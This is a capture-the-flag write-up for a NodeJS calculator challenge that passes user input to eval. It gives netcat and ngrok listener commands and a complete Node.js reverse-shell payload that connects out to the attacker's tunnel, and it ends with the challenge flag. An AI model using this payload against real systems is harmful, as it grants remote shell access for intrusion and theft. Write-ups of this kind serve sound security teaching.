

---

Tags: `NodeJS RCE`

---

> In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids. With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑
> 

In this challenge, We have a NodeJS calculator.

Our focus is to get the flag saved in `/flag.txt`. 

Reading the code We notice that, to provide the expression result, the server uses the `eval` function as follows:



This is an easy RCE (Remote Code Execution). We should be able to establish a reverse shell using `netcat` and `ngrok`.

In a terminal run:

```bash
nc -nvlp 1234
```

while in a second one run:

```bash
ngrok tcp 1234
```

Now, We can generate a reverse shell using [RevShells](https://www.revshells.com/).

There is just one thing you need to consider, the `calculate` function the `eval` is evaluating a function that returns our `formula`. So to correctly bind our reverse shell We need to wrap our reverse shell in a function.

Our final payload is:

```jsx
(function() {var net = require("net"), cp = require("child_process"), sh = cp.spawn("sh", []); var client = new net.Socket(); client.connect([port], "[ngrok tcp dns]", function(){client.pipe(sh.stdin); sh.stdout.pipe(client); sh.stderr.pipe(client); }); return /a/;;}())
```

And there We go:


And in our terminal:


---

## Flag: HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}